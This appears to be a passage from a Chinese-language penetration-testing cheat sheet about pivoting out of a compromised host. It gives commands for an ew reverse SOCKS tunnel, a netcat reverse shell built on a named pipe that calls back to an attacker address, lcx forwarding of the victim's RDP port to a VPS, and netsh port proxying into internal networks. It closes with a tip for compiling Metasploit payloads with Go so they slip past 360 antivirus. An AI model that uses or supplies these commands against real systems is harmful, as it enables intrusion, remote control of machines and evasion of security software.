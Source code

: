 >
> 设置 
>
> > proxychain socks5 本主机 ip port：1080
> >
> > proxychain 代理即可
>
> **被攻击机：**
>
> > chmod 777 ew_for_linux
> >
> > ./ew_for_Linux32 -s rssocks -d 192.168.1.100 -e 2333
>
> ### nc
>
> nc 简单使用
>
> > https://tom0li.github.io/2017/05/06/nc/
>
> linux root 权限
>
> > mknod /tmp/backpipe p  
> >
> > /bin/sh 0</tmp/backpipe | nc ip port 1>/tmp/backpipe
>
> 权限不够用 
>
> > ```
> > mkfifo /tmp/backpipe
> > ```
>
> 以上用 nc 监听即可
>
> ### lcx
>
> 被攻击机 
>
> > lcx.exe -slave 139.1.2.3 8888 10.48.128.25 3389
>
> vps    
>
> > lcx.exe –listen 8888 5555
>
> 在本机 mstsc 登陆 139.1.2.3:5555 或在 vps 连接 127.0.0.1:5555
>
> ### netsh win自带(只支持 tcp )360 拦
>
> 将本地80转到192.168.1.101:8080端口
>
> > netsh interface portproxy add v4tov4 listenport=80 connectaddress=192.168.1.101 connectport=8080
>
> 通过连接1.1.1.101的8082端口，相当连接1.1.1.101可访问的内网192.168.2.102的3389端口
>
> > netsh interface portproxy add v4tov4 listenaddress=1.1.1.101 listenport=8082 connectaddress=192.168.2.102 connectport=3389
>
> ### go+msf & py+msf bypass360
>
> msf 编码生成后，用:
>
> > go build -ldflags="-H windowsgui -s -w" 
>
> 即可，详细参考以下 link